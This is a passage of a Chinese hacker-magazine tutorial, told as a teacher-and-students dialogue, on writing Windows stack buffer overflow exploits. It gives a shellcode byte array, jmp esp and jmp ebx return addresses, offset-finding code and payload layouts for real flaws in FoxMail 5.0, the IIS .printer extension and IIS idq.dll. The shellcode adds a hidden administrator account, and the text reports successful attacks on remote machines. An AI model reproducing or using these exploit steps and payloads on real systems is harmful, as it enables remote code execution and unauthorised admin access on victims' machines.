> - 二是 **RRRRRRRRRRRNNNNNNNNNSSSSSSSS** 型，是用大量的 R 贴满整个缓冲区，然后大量的 NOP，最后是 shellcode。这里 R 往后跳到 NOP 中，再顺着往下执行，就会到 shellcode 中。但在 Windows 下，R 中必定会含有 0，这样整个构造就会被截断，只能用于 Unix 中。

> Windows 的系统核心 DLL 包括 kernel32.dll、user32.dll、gdi32.dll。这些 DLL 是一直位于内存中，而且对应于固定的版本，Windows 加载的位置是固定的。

老师继续说道：“我们来看看在 Windows 下如何利用系统核心 DLL 里的指令来完成跳转吧。我们用系统核心 DLL 中的 `jmp esp` 来覆盖返回地址，而把 shellcode 紧跟在后面，这样就可以完成跳转到我们的 shellcode 中。其利用格式是 NNNNNNRSSSSSS，N = Nop，S = Shellcode，R = jmp esp 的地址。”

小菜们怔了：“等一下，为什么用 jmp esp 的地址覆盖，就可以跳到后面的 shellcode 中呢？”

“这是最关键的地方了，理解了这个就理解了整个缓冲区溢出攻击了！你们看，覆盖后的缓冲区如图 9 所示。”

| 栈位置 | 内容说明 |
| :--- | :--- |
| 高地址 | 保存的 EBP |
| | **jmp esp 的地址** |
| | S0 (Shellcode 起始) |
| | S1 |
| 低地址 | S2 |

“当程序在返回时，执行了 Pop Ret，这样 EIP 变为 jmp esp 地址；而 ESP 指向 shellcode 的第一个字节——图 9 中的 S0。然后，计算机不知道我们做了手脚，继续往下执行——EIP 指向的指令是 jmp esp，而 ESP 指向的是 S0，这样就执行到我们的 shellcode 中了！”

> EIP：指令指针，指向下一条要执行的命令，一般自动加 1。
> ESP：堆栈指针，指向堆栈的顶部。在 push 时，ESP 往高地址走（减小）；在 pop 时，ESP 往低地址走（增加）。

“我再重复一下这个过程：原来保存的 EIP 被我们覆盖成了 jmp esp 的地址，这样程序在返回后，就会去执行 jmp esp。而此时的 ESP 指向了我们的 shellcode，那当然下一步就是执行我们的 shellcode 啦！”老师耐心地说道。

“哦！”

“而 jmp esp 的地址，会因为操作系统的版本不同而不同。比如在 Win2000 的 User32.dll 中，jmp esp 指令的地址分别为：sp0: 0x77e2e32a，sp1: 0x77e8898b，sp2: 0x77e0492b，sp3: 0x77e188a7，sp4: 0x77e22c75。以前很多攻击程序中需要指定对方版本的参数，就是这个原因。”

“哦！”

“但随着技术的发展，大家又发现了可以通用的地址。呵呵，这样攻击程序的统一化和简单化有了很大的提高。从这里可以看出，技术是不断发展进步的，所以如果自己有什么发现，一定要公布出来以便大家讨论，同时对自己也是一种提高，否则技术会很快过时的。”

| name[8] | EBP | RET (返回地址) | ShellCode |
| :--- | :--- | :--- | :--- |
| AAAAAAAA | AAAA | 0x77e1af64 | SSSSSS... |

```c
char name[] =
"\x41\x41\x41\x41"  // name[0]-name[3]
"\x41\x41\x41\x41"  // name[4]-name[7]
"\x41\x41\x41\x41"  // 保存的原 ebp
"\x64\xaf\xe1\x77"  // 覆盖成 jmp esp 的地址 0x77e1af64
// 以下是 shellcode 的 dos 窗口
"\x55\x8B\xEC\x83\xEC\x0C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4"
"\xB8\x61\x6E\x64\x2E\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89"
"\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4\x50\xB8\x24\x98"
"\x01\x78\xFF\xD0";
```

“把代码合起来，如图 11 所示。好了，在程序中把 name 赋成这样的值。看起来很奇怪，但会得到很奇妙的结果。我们执行，就会弹出想要的 DOS 对话框啦！”

“大家看，写 main 函数的程序员，他只会去负责读入 name 并赋给 output 数组，根本不会感觉到 name 数组中会隐藏这样精心构造的恶意代码；对于任何的 name，他都会把它读入并作为正常的东西处理，但会出现想不到的结果，呵呵！”（图 12）。

“这样，我们就完成了首个缓冲区溢出攻击的编写。感觉怎么样？有收获没有？”

小菜们答道：“有！不错不错！”

“好，有收获就好！下次课我们将进入实际 Windows 漏洞的缓冲区溢出利用编写了。OK，今天就到这里，放学！”

## FoxMail 溢出漏洞编写

“早晨起床，铃儿响啊，可叮当当上学堂”。老师一边哼着歌，一边迈进教室。

“哇！”老师大叫一声。原来看见更多的小菜们坐得整整齐齐，老师吓了一跳，“我还以为走错了教室呢！”

“老师，上次讲了缓冲区溢出后，大家都对其产生了浓厚的兴趣。也希望能继续学习实际缓冲区溢出漏洞编写。”

“哦，是这样啊，没问题，真正的黑客精神就是交流和共享！有更多的人参与，就会有更多的讨论和交流，也就会激发出更多的思想，大家也就会一起进步。”

“有一点我要再三强调，就是有什么技术发现，一定要公布出来，别人可以在此基础上有更好的发现，自己也可以获得更多的收获；而如果只是自己用，技术本身是会很快过时的。大家记住了吗？”

“记住了！”

“好，从现在起，我们就进入真正的 Windows 平台下缓冲区溢出漏洞的编写！”

“好哦！”一阵欢呼。

“我们从易到难地进行，首次实战的对象就是 FoxMail 的漏洞！”

> FoxMail 是国内著名的 Internet 电子邮件客户端软件。
> 可以到其主页 www.FoxMail.com.cn 获得最新信息。

“哇！第一个就选这么难的啊？我们能行吗？”

“呵呵，其实有了前几天的知识，要利用该漏洞实在是小菜一碟。哦，对不起，‘小菜’不是叫你们，我是说这个漏洞我们就可以很轻松地利用了。”老师说道。

“对！绝对没问题！Follow me! 首先让我们看看漏洞公告吧！”（图 13）。

“大家拿到任何一个漏洞公告后，首先要注意是什么程序、它的什么版本有漏洞。从上面可以看出，有问题的版本是 FoxMail 5.0 beta1、FoxMail 5.0 beta2 和 FoxMail 5.0，那我们就装上相应的版本，写出对它的溢出攻击程序吧。这里我用的是 Win2000 sp2 + FoxMail 5.0 beta1。”

“漏洞公告还会给出大概的问题分析。上面就说到了，有问题的东西是 punylib.dll。安装了 FoxMail 后，我们可以在安装目录的 3rdParty 子目录下发现它，大家看图 14！”

“除此之外，漏洞公告一般还会给出漏洞的解决办法或补丁下载，这里我们就不关心了，但平时生活中，大家一定要重视，这可是安全的保证哦。”

“当然，漏洞公告是不会给我们说如何利用漏洞的。所以除了查看漏洞公告，还要查找其他人或安全组织的相关漏洞分析报告。比如 root 关于 FoxMail 漏洞的分析”（图 15）。

“好了，从漏洞公告和分析中，我们可以知道，是 FoxMail 在处理 `From:` 字段的时候，允许的长度超过了缓冲区分配的长度，从而导致了缓冲区溢出。以上的大家都能理解吧？”

“嗯，但如何写该缓冲区溢出漏洞的利用程序呢？”小菜们急不可耐地问。

“好，就让我们依次解决上次课上说的三个条件，来实现对 FoxMail 漏洞的利用编码吧。”

“首先复习下要成功利用缓冲区溢出需要的三个条件。”

- 1. 有问题程序返回点的精确位置。
- 2. 既然我们可以让程序去执行我们想去的地方，那我们就要准备一段代码（shellcode），让程序去执行它。
- 3. 把返回点覆盖为 shellcode 的地址。

“这三点大家一定要牢牢地记在头脑里，这是标准缓冲区堆栈溢出利用的标准方法！”

小菜们使劲地点点头。

“来，就让我们一步一步来解决需要的这三个条件吧！”

“第一也是最主要的：有问题程序返回点的精确位置。从漏洞公告和漏洞分析中我们可以知道，邮件的 `From:` 字段太长就会覆盖到返回地址，那我们就写一个初步的溢出程序框架 FoxMail1.c，来逐步定位返回点的位置。这个程序很简单，就是往邮箱发一封信，而且只有 `From:` 字段。不要小看这个框架哦，虽然简陋，但我们会在此基础上打造出最终的梦幻版本。”

“在程序 FoxMail1.c 中，我们对 `From:` 字段进行填充。因为不能超过 0x200 的长度，所以我们先填充 0x150 个 A 试试。”

```c
memset(buffer, 0x41, 0x150);
sprintf(temp, "From: %s\r\n", buffer);
send(sock, temp, strlen(temp), 0);
```

“然后执行程序，发送成功！”（图 16）。

“然后我们用 FoxMail 接收邮件，大家看！”（图 17）。

“咦！接收的时候出错了！41414141 就是我们填的 A 啊！”

“找到喽！”小菜们欢腾了。

“等一下！”老师把手一挥，“我把它们列出来，大家仔细看，和上节课的报错信息对比一下。”

上节课的报错信息如图 18。FoxMail 的报错信息如图 19。

“发现有什么不同的吗？”老师问道。

“一个有两个按钮，一个只有一个按钮……”小菜们回答。

“倒……”老师当即晕倒。

费了好大劲站起来后，老师说道：“对，这的确是个不同的地方。原因是上节课讲的有问题的程序是我们自己写的，我们有代码，所以可以调试；而 FoxMail 出错，我们不能调试它。但这不是重要的地方，大家再仔细看看提示的信息有什么不同。”

“那～是不是前一个提示的是内存不能读（read）而出错；而后一个提示的是内存不能写（write）而出错？”

“对！就是这里啦！”老师高兴地说道。“是这样的，我们覆盖了 0x150 个 A，有可能不仅覆盖过了 EIP 的地方，而且还覆盖了其他一些程序要用的参量。如果在程序返回之前，要对那些参量改写，但参量的地址被改成 41414141，是根本不能写的，那就造成了写（write）类型错误！”

“哦，原来是这样，那怎么办好呢？”

“我们把 `From:` 字段覆盖少一点，要覆盖到返回地址，但不要覆盖到那些参量地址。这里我们采用二分法：先前的 0x150 太长，就改成 0x75，如果 0x75 太短不能覆盖返回地址没有报错，那又改长一点，改成 0x115 的长度，以此类推。”

老师接着说道：“当我们覆盖到 0x104 时，我们想要的结果出现了！”（图 20）。

```c
memset(buffer, 0x41, 0x104);
sprintf(temp, "From: %s\r\n", buffer);
send(sock, temp, strlen(temp), 0);
```

“哦哦哦，和原来那个一样的错误了，都是读错误！”小菜们叫起来了。

老师笑道：“哈哈，对！说明我们填充 From 字段的时候不能超过 0x104 的长度。解决了这个问题，我们继续，想办法定位返回点的位置。”

“大家想想，上次课的返回点我们是怎么确定的呢？”

“嗯……是根据报错信息直接数出来的。”小菜甲说。

“对，这里我们也仿照那样，但这里的缓冲区太长了，我们把数的方法改进一下。”老师大笔一挥。

“我们改变 FoxMail1.c，把 From: 字段填充方法改一下……”

# 主题乐园

的程序为 FoxMail2.c。”

“我们把 FoxMail1.c 填充 From 字段的那段替换为：”

```c
for(i=0; i<=0x104; i++)
    buffer[i] = 'A' + i % 10;
sprintf(temp, "From: %s\r\n", buffer);
send(sock, temp, strlen(temp), 0);
```


“进入邮箱，把原来的信删除；再执行 FoxMail2.c 给邮箱发封新信。这回用 FoxMail 接收的时候，出现的报错框成了‘Access violation at address 4A494847, Read of address 4A494847’，如图 21 所示。”

“OK！我们记录下这个数字，看来这次是 0x4A494847 覆盖了返回点。再把 FoxMail3.c 中，把 `buffer[i] = 'A' + i % 10` 的取余数改为 10 删除。”

```c
for(i=0; i<=0x104; i++)
    buffer[i] = 'A' + i / 10;
sprintf(temp, "From: %s\r\n", buffer);
```


“再次删除信件，执行 FoxMail3.c。用 FoxMail 接收，这次出现的错误框成了‘Access violation at address 5A5A5A5A, Read of address 5A5A5A5A’，如图 22 所示。”

“从上面的两个提示中，我们就可以得到精确的返回地址位置了！”老师得意的说道。

小菜们丈二和尚摸不着头脑：“怎么得到呢？”

“不要急，我们一起来推算一下。分析一下我们上面两次做的事情。”

“第一次用 FoxMail2.c，是在 From 字段不停的加上 A~J 的循环，就是十六进制 0x41~0x4A 这个个数的循环。”

“第二次用 FoxMail3.c，是以 10 为一段长度，每段分别为 0x41，0x42……来填充 From。”

“注意了，第一次溢出时，报错的最小值是 0x47，此时只有 0x41~0x4A 的不断循环，所以我们可以大胆推出尾数是 0x47-0x41=6。”

“在第二次溢出的时候报错的全部是 0x5A，而此时是从 0x41 开始，每十个数为一段。所以 0x5A-0x41=0x19，就是十进制的 25。即正好停留的第 25 个段。”

“所以我们可以大胆的计算出程序的返回点位置是：”

“(0x5A-0x41) × 10 + (0x47-0x41) = 25 × 10 + 6 = 256”

“哇！”小菜们一片欢呼！

“哈哈，验证一下我们的猜测吧！再改一下程序，指定 From 字段第 256 开始的四个字节是‘BBBB’，而其他全部为 A。”

```c
memset(buffer, 'A', 0x104);
buffer[256] = 'B';
buffer[257] = 'B';
buffer[258] = 'B';
buffer[259] = 'B';
```


“代码如上修改后，如果猜测正确，大家想想，会是什么样呢？”老师问道。

“嗯，应该是 BBBB 覆盖到了返回地址吧。”

“我们一起试吧！执行这个程序（FoxMail4.c），果然弹出的对话框成了‘Access violation at address 42424242, Read of address 42424242’，如图 23 所示。”

“42 就是 B 的 ASCII 表示！”

“哇！so cool！！！”堂下响起了一片惊叹声！

“谢谢，谢谢大家的鼓励，我能取得现在这个成绩，是离不开大家的支持，离不开《黑客 X 档案》编辑们全力的帮助，谢谢，谢谢你们，我爱你们！”

台下无语了※※……￥

“呵呵，上面溢出点定位的方法非常巧妙和准确，以后大家在标准的堆栈溢出中，可以经常使用这种方法来进行定位。”老师强调道。

“太好了，真是个好方法啊！这样别人给出漏洞证实程序，我们可以很快定位了！”小菜们顿时议论纷纷。

“嗯，OK，回到我们这个程序的利用上来吧。”

“现在三个条件中第一个条件返回点的精确位置已经成功解决了！”

“让我们再看看第二个条件——ShellCode。ShellCode 很重要，但这里我不详细介绍，ShellCode 的编写是很有考究的，会涉及到各种各样的方面。应用不同，要求不同，编写也不同，如果下次《X 档案》能再给我一次机会，我会毫不犹豫的说：我们再来个 ‘ShellCode’ 专题吧。但这次就直接给出个在中文 Win2000 SP2 下，添加 www0830 管理员用户的 ShellCode。”

“最后第三个条件——jmp esp 地址，这个上次讲了并给出了中文 Win2000 各版本相应的地址，大家直接使用就可以了。但各个版本不统一，使用起来是相当的麻烦。这里，我再给大家一个大餐——各版 Win2000/XP/2003 的 jmp esp 通用跳转地址（Lion 给出的）：0x7ffa4512。经我测试，绝对可用，童叟无欺！是编写溢出利用程序的必备良药！让我们一起感谢 Lion 的无私共享精神吧！这才是真正的 hack 精神，大家也一定要发扬这种精神啊！”

小菜们拼命的点头：“好也！”

“好吧，这下我们的三个条件都有了，来完成统一吧！”


“初步的分析后，我们知道 From 字段应该作如下的构造，就可以跳入我们的 ShellCode。如果还有不清楚的同学，请再复习下上次课的内容。”（图 24）。

“对！就这样喽！”

“但是，大家别忘啦！”老师突然一喝！“这样和最开始我们覆盖 0x150 个人测试时是类似的，ShellCode 会把程序要写的参数覆盖了，那么程序在返回之前，会产生那个 write 型的错误！”

“哇，是啊，是啊，这可怎么办啊？”

“在这种情况下，一般有三种解决方法”，老师耐心的解释道，“第一种，注意覆盖参数为可写的地址，即保证参数是可写的，不让它出现 write 错误；但这种方法很麻烦，需要知道不能写的参数的所有位置；第二种，覆盖异常，这种方法会在后面讲到；第三种，就是这里我们使用的，把 ShellCode 放在前面！根本不覆盖参数。”

“把 ShellCode 放在前面是什么意思呢？”小菜们问道。

“就是说，我们把 ShellCode 放在 RET 前的缓冲区中，而在 RET 后面放入很短的一个指令，指令的内容就是往前跳，跳到前面的 ShellCode 中。”

“具体的说，就是这样格式。根本不去覆盖不能改的参数。”（图 25）。

“在这样的格式下，返回时程序就会先执行 JMP 0x80 这个指令，往前跳到一堆空指令中，然后顺着空指令往下执行，最后进入到 ShellCode 中，这样就可以执行我们的 ShellCode 了。”

“哦哦哦！太有创意了！”小菜们感叹道。

“这是很基本的方法，更多精彩还在后面呢。”老师回答道，“好，这里不啰唆了，让我们按照这个格式，给漏洞以最后一击，写出最终的利用程序——exploit！”

（程序 FoxMail5.c 见光盘）。

“我们先把邮箱清空、编译 FoxMail5.c 并执行，再用 FoxMail 接收邮件。只要一接收，就会在本机上添加一个名为 www0830 的管理员用户了，大家看！”（图 26）。

“Bingo！太帅了！”

“大家也注意到了吧，通过我们的实际编写，发现只要用户用 FoxMail 一收邮件就会马上触发。而不是像有些厂商传闻的那样只在用户回复该邮件的时候才会被触发。所以国内外软件开发公司对待漏洞发现者、漏洞本身的态度，以及对产品使用用户公布漏洞信息的态度……”老师逐渐沉默了。

“是啊，厂商还居然说是漏洞发现者的炒作，这简直太不负责任了！明明有问题都不敢承认。”小菜们一个个义愤填膺！

“算了，我们这里只讨论技术，其他方面就不多评论了。”老师又恢复了原来的生气，“这里再和大家一起总结下对 FoxMail 的利用过程吧。”

- 第一步，精确定位返回点。我们用求余取整法，可以巧妙的得到返回位置。
- 第二步，ShellCode 编写。我们直接叫别人写好的 ShellCode。


- 第三步，jmp esp 的地址。我们使用 Lion 共享的中文通用地址——0x7ffa4512。再次向 Lion 前辈致敬！

“最后把它们合起来。由于返回点后面不远处不能覆盖，所以我们把组合位置作稍稍改变，把 ShellCode 放前面，RET 后面放一个往前跳的指令，用这样的方式跳到我们的 ShellCode 中。”

“ShellCode 的功能是添加用户，好了，这样就完成了我们的首个缓冲区漏洞利用编写了，是真实的漏洞哦，感觉怎么样啊？”

“太有成就感了！”小菜们嚷道。

“呵呵，那就好，兴趣就是这样培养起来的，有了兴趣就会更有动力钻研下去，钻研也是黑客精神的一部分。让我们继续吧。”

## 六、牛刀小试
## printer 溢出漏洞编写

“好，我们趁热打铁，利用刚才的步骤，迅速完成对 IIS 5.0 Printer 漏洞的利用编写吧！”

> **小知识**
> IIS（Internet Information Server）：Internet 信息服务。它是一种 Web 服务，主要包括 WWW 服务器、FTP 服务器等。它使得在 Intranet（局域网）或 Internet（因特网）上发布信息极容易。微软 Win2K IIS 5 的打印 ISAPI 扩展接口建立了 .printer 扩展名到 msw3prt.dll 的映射关系，缺省情况下该映射存在。当远程用户提交对 .printer 的 URL 请求时，IIS 调用 msw3prt.dll 解释该请求。由于 msw3prt.dll 缺乏足够的缓冲区边界检查，远程用户可以提交一个精心构造的针对 .printer 的 URL 请求，就会在 msw3prt.dll 中发生典型的缓冲区溢出，潜在允许执行任意代码。

“该 Printer 漏洞只对 Win2000 SP0、SP1 版本有效，可以说是个元老级的漏洞了，现在基本上都没有了，大家用它来练练手吧！”

“好啊~”

“第一步，确定返回点的位置。这里我们查看相关的漏洞公告，可以知道，对 http:// 域填充到 268 个字节的时候，就可以覆盖到 EIP。”

“第二步，ShellCode。我们还是使用现成的 ShellCode 吧，给 SP0 加上一个管理员用户。”

“第三步，Jmp esp 的地址。还用说吗？Lion 大侠的地址是通吃的。”

“好了，把它们组合起来，如下的格式。”（图 27）。

“然后轻松把他们合成程序 Printer.c，我们把写好的程序编译、执行！再看远程机器的效果吧！”

“Yeah！成功添加了一个用户！”“太好了！”又是一阵欢呼，小菜们简直不敢相信，“太容易了吧！”

“呵呵，讲解这个漏洞一方面让大家弄清晰一下溢出编写的基本思路，但更关键的是，我要通过这个漏洞讲解缓冲区溢出利用的另一种形式——更常用的形式，大家千万别松气哦！”


## 七、jmp/call ebx
## 另一种溢出利用方式

“我们用 jmp esp 的方式都成功两次了，为什么还要学其他的方式呢？”小菜们问道。

“因为——hacker 不应该自满，这是第一；第二，有些漏洞用 jmp esp 的方式是无法成功的。所以我们必须要学习另外一种溢出利用方式——jmp/call ebx 的方式！”老师肯定的回答道。

“哦，那 jmp/call ebx 方式是不是把返回地址覆盖成 jmp/call ebx 的地址就可以了呢？”小菜们还想偷懒。

“No！jmp/call ebx 方式不是覆盖返回地址了，而是覆盖异常处理地址！”

“哇！”一片惊呼声。“异常处理……好吓人啊……”

“不要怕！我会用很通俗易懂的话来解释它们，要理解清楚还是很容易的！Go！”

“大家首先想想，我们在上面的利用方式中，是把返回地址覆盖成另一个地址。但如果是个无效的地址呢？那里指向的数据或许不能读，或许不能执行，那会怎么样呢？”

“呜……”小菜们拼命想啊。

“大家试想一下，我们在发送覆盖的时候，用的就是无效地址！”

“哦，那就让系统会弹出个对话框报错，我们点确定，就会终止运行！”小菜们叫了起来！

“对！这是因为作为一个系统级的程序，内部有健全的出错处理机制。简单的说，如果运行时有错误产生，Windows 就会跳到一个专门处理错误的地方，对应不同的错误，执行不同的代码。正是执行了代码才会弹出个对话框报告错误。”

“Windows 处理错误的机制如图 28。”老师接着说。

“当系统遇到一个它不知道如何处理的异常时，比如刚才的代码非法，那它就会查找异常处理链表，找对应这种异常的处理程序；找到了对应的处理程序后，就把保存的处理程序地址赋给 EIP，这样系统就会执行处理程序，以避免系统崩溃。”老师继续解释。“我再告诉大家吧，异常处理链表的最后一个处理程序，就是大家看到的弹出对话框报错，呵呵。”

“哦，我们的错误让系统都到了异常处理链表的最后了啊。”小菜们感叹道。

“对！异常处理也有很深的技术原理，但我们这里不深究了。还是回到我们的目标，想想怎么利用这个 Windows 系统的异常处理，执行我们的 ShellCode 吧。”老师说道，“大家先开动脑筋，想想办法，不然就我一个人讲，大家得不到锻炼。来，大家讨论讨论，说说自己的想法吧！”

一时间，众小菜议论纷纷。

“嗯~，如果执行非法代码，就会报错……”小菜甲说道。

“嗯，这个报错，是因为系统顺着异常处理链往下找，直到最后的处理程序，然后把最后的处理程序地址给 EIP 而产生的。”小菜乙说道。

“哎哟”，小菜丙叫了起来“这里要改变 EIP 也，我们把最后的处理程序地址改成我们 ShellCode 的地址，不就可以了嘛！”

“哇！！是啊，是啊！”小菜们喧哗了！

“但我们 ShellCode 的地址是多少呢？”老师突然发问到，“第一种方式就是不能确切的知道我们 ShellCode 的地址，所以才改用 jmp esp 地址覆盖的啊。”

“这个这个……就是啊，但这里 esp 就不知道指向的是哪里了。”

“不过很好！”老师还是表扬了下大家，“大家能想到这一步，已经很不错了。”


“另一点是大家不知道的 Windows 系统的知识：就是在判断是否使用现在指向的异常处理程序时，ebx 会自动变为下一处理点的地址，这样可以把异常处理地址连接起来，形成了一个异常处理串。

“所以在刚进入异常处理，判断是否使用处理程序 1 时，ebx 为处理程序 2 的地址，就像图 29 一样。大家想想，如果系统判断不使用处理程序 1，就从 ebx 得到处理程序 2 的地址，并对处理程序 2 进行判断，而 ebx 又自动变为处理程序 3 的地址。这样就形成一个异常处理串，可以最后寻找到链表结束而不中断。”（图 29）。

“哦，太奇妙了！”小菜们感慨道。

“呵呵，比尔可不是吃干饭的。”老师笑道，“但这样就给了我们绝佳的机会！”

“哦？”小菜们努力的倾听着。

“这里我们故意把返回地址覆盖成一个错误的地址。这样出错时，Windows 就会跳到处理错误的入口点，而 ebx 就在入口前 4 个字节的地方！那我们把错误入口处覆盖为 jmp ebx 的地址，就会跳到前 4 个字节了。”

“跳到前 4 个字节，怎么跳到 ShellCode 呢？在这里我们写入 jmp 04，往后跳 4 个字节，正好跳过覆盖值，达到我们的 ShellCode！”

“所以在这里我们毫不客气的把两部分一起覆盖了！成了图 30 这样，那就可以跳到 ShellCode 了，这就是接管异常！听起来很有成就感吧！”

“哦哦哦……成功了！”小菜们嚷道。

“好，那让我们立刻开始利用吧！”

“好啊，”老师诡异的一笑，“你们画出利用的构造格式吧！”

“嗯，好哩！先覆盖一堆无用的值，到了异常处理入口点，先是 Jmp 04，接着是 Jmp Ebx 的地址，最后跟着 ShellCode，就像图 31 一样。”小菜们七手八脚的划下来。

“哦，思路很对，但这里的 A 有多少呢？”老师突然问道。

小菜们一愣，然后叫了起来：“哎哟哟！现在还不知道异常处理入口点在哪里呢！”

“呵呵，就是啊。你们终于发现了啊。”

小菜们恳求道：“呜，老师快说啊，怎么找到异常处理入口距离溢出点的长度啊？”

“当然了，如果不解决这个，那这种方法就无法使用。”

“先看看牛人们的方法，他们使用的方法都比较直观和清晰，当然技术含量也比较高。他们一般是用工具 attach 有问题的服务，反汇编、跟踪进去。找到有问题的点，然后向上找到该服务的异常处理入口，直接分析出异常处理入口位置距离溢出点的长度。”

“哇！反汇编啊，完全不懂，好难啊，老师。”

“对，这种方法对菜鸟来说，的确是比较困难。无论是跟踪，还是计算长度，都需要比较深厚的经验和技术，没有什么技巧可言，都是实力的表现。”

“是啊，那就没有稍微简单点的方法可以利用了吗，老师？”

“No，我亲自试验，发现了个比较简单的方法（相对于直接分析系统服务），可以轻松知道要填充多少达到异常处理入口。”

“哦？快说说啊！”，小菜们迫不及待了。

“不急不急，这里插播一下广告，大家可以参看《黑客 X 档案》2004 年第 5 期的‘轻松将 jmp esp 方式改写为 jmp ebx 方式’来获得详细的分析。呵呵！这里，我只作简单的介绍。”

> ### 小知识
> jmp esp 改写成 jmp ebx，其思路是，先利用 jmp esp 的攻击程序，在 jmp esp 代码后，跟上 “\xeb\xfe”，这句即 jmp -1。实行模拟攻击后，在被攻击主机上调出 softice，就会发现停在 “\xeb\xfe” 这句。这时，我们查看其 fs:0000 的值，它里面存的就是异常处理的入口地址！这时，我们计算那个值离现在的距离，就轻松知道要填充多少达异常处理入口了。

> ### 提示
> 随着技术的发展，轻松将 jmp esp 方式改写为 jmp ebx 方式，节省地址字节长度，以及得到更准确的定位。

“我们就利用这种方法，来定位 Printer 漏洞的异常处理地址，并改写刚才我们的 Printer 漏洞的攻击程序吧。”

“刚才的利用方式如图 32 所示。”


“我们在 E=jmp esp 后面添上句 “\xeb\xfe”，然后攻击我们的模拟机，并在模拟机上打开 softice。哈哈！看到停在了 0172f3e0 处，指令就是 EBFE，跟在后面的是我们原来的 ShellCode。这样，我们就进入内部了。”

“快找异常入口地址！D fs:00，看到 fs:0 里面放的是 0x0172f428，哈哈！这就是异常入口地址。如果我们把返回地址写成 AAAA 等非法值，就会产生错误，ebx 会变为 0x0172f428，而系统会跳到 0x0172f42c 执行处理代码，如果我们把 0x0172f42c 覆盖成 jmp ebx，而把 0x0172f428 覆盖成 nop nop jmp 04，就会跳过覆盖地址，执行跟在 jmp ebx 后面的 shellcode！”


“计算下，异常入口地址是 0x0172f428，而现在 jmp esp 的地址是 0x0172f3d8，相减为 80（0x50），所以异常入口位置离缓冲区入口地址是 268 + 80 = 348。那我们就得到了覆盖异常的准确格式了。”（图 33）。

“我们用这种方法写出利用程序吧。对照第一种方式，这里还是分三步吧。”

1. 异常入口的准确位置。我们已经计算出来了，为 348 byte。
2. ShellCode。我们还是利用现成的吧，还是那个添加用户，呵呵。
3. Jmp ebx 指令的地址。还是 Lion 公布的 0x7ffa1571，还是 Win2000/XP/2003 通用！

“然后把改好的 PrinterCallEbx.c 编译，执行，哈哈！添加用户成功！”

“哦！”小菜们都看入迷了，好不容易回过神来。

“怎么样？大家理解了 jmp/call ebx 方式的思想了吧？”

“嗯，不错，不错！简直就像一部大片，令人赞叹……”

“好，我们再总结一下，jmp/call ebx 方式的利用格式是 NNNNNNJESSSSSS。这里 N = NOP，J = Jmp 04，E = jmp ebx 的地址，S = ShellCode。这样异常处理时，就会执行 jmp ebx，而 ebx 在 J 的位置，那就可以跳过 E，进入我们的 ShellCode 了。”

“哦，老师，那什么时候用 jmp esp，什么时候用 call ebx 方式呢？”小菜们问道。

“在一般情况下，两种都可以使用。但一些特定情况下，只能使用其中的一种方式。”

“哦，什么情况呢？”

“大家都看到了，异常处理点要比返回点远很多。所以如果程序还是有长度限制，不能覆盖到异常处理点，但可以覆盖到返回地址时，那就只能用 jmp esp 覆盖 EIP 了。”

“哦！”

“举个例子来说吧，我们前面的 FoxMail 漏洞，还是作了限制的，不能超过 0x200，所以到达不了异常处理的地方，但 EIP 在 0x100 位置，所以我们可以用第一种方式 jmp esp 覆盖 EIP，而且只能用这种方式！”

“明白了。那什么时候只能用 call ebx 方式呢？”

“呵呵，当能覆盖到异常处理点，都可以用该方法。而且这种方法很好，不用考虑地址可写与否的问题。如果程序在返回前，一定会产生异常，那就只能用这种方法了。”

> ### 提示
> 两种方法使用细则是：
> 1. jmp esp，覆盖不到异常处理点时，比如 FoxMail 作了 0x200 限制。
> 2. jmp/call ebx，在返回前就有异常时，只能用这种方式。

## 八、拾阶而上
## idaidq 溢出漏洞编写

“好了，诸位，经过刚才的讲解，大家清楚了 jmp esp 和 jmp/call ebx 的两种方式的利用和区别吧？”

“嗯，好想再来一次 jmp/call ebx 的实战啊，”小菜们感叹道。

“好！大家有兴趣就好！兴趣是最好的老师！既然大家很想，那我们再来一次实战吧！”

“好啊！”

“这次，我们就对 IIS 的 idaidq 漏洞进行利用编写吧！”

> ### 小知识
> IIS 的 idaidq 漏洞。作为安装 IIS 过程的一部分，系统还会安装几个 ISAPI 扩展 .dlls，其中 idq.dll 是 Index Server 的一个组件，对管理员脚本和 Internet 数据查询提供支持。但是，idq.dll 在一段处理 URL 输入的代码中存在一个未经检查的缓冲区，攻击者利用此漏洞能导致受影响服务器产生缓冲区溢出，从而执行自己提供的代码。更为严重的是，idq.dll 是以 System 身份运行的，攻击者可以利用此漏洞取得系统管理员权限。

“首先，我们来看漏洞公告，如图 34 所示。”

“该漏洞对 Win2000 SP0、SP1、SP2 有效。大家可以看到，采用 GET...”


# 主题乐园

“/NULL.ida?{buffer}=x HTTP/1.1，对 buffer 域进行填充，就可以覆盖到 EIP，再继续也可以覆盖到异常处理点。”

“然后，我们温故而知新，还是按照三个步骤来进行。”

- 1. 第一步，异常点位置。通过漏洞分析可以知道，异常处理点在 buffer 第 240 字节的地方，所以我们在 236 字节放上 NOP, jmp 04，在 240 字节的地方放上 jmp ebx 的地址，在 244 放上我们的 shellcode。
- 2. 第二步，ShellCode。这里我们也不说了，还没添加呢。
- 3. 第三步，Jmp Ebx 的地址：0x7FFA1571。

“好，我们的三步曲都有了，来构造吧！构造的形式如图 35 所示。”


“哦，好 yeah！我们把构造好的程序运行吧！”小菜们迫不及待了。“好！运行运行！”小菜们手忙脚乱地把程序编译并运行开来。

“咦？怎么没有反应？”等了半天后，小菜们望着黑黑的屏幕，呆了。

“呵呵。”老师看到小菜们忙完后，才说道，“这个 IIS 漏洞和前面讲的那些漏洞有些不一样的地方——它要对 URL 进行一定的编码转换。这样转换后，我们的 Jmp 04、jmp ebx 的地址和 shellcode 都被改变啦！那当然不能执行我们想要的 ShellCode 了。”

“啊？”

“这就是该漏洞不同的地方，也给大家带来了新的挑战性，但在实际中，这种事情还是很常见的。比如 Gmail 会把大写改成小写等等。”

“哦，那怎么解决呢？”小菜们问道，“这个问题不解决，那很多漏洞都不能用了。”

“对！我们一定要解决。但解铃还需系铃人，首先要看看 IDA 是如何变换那些 URL 请求字符串的！”

“哦，太好了！”

“提交的 URL 被改变，是因为发送的内容由单字节转换成了宽字节。”

> **小知识**
> 
> 单字节和宽字节。在多年以前，许多人一直将文本串作为一系列单字节字符来进行编码，并在结尾处放上一个零。但单字节只能有 256 种编码，根本不够表示世界各国的文字。
> 
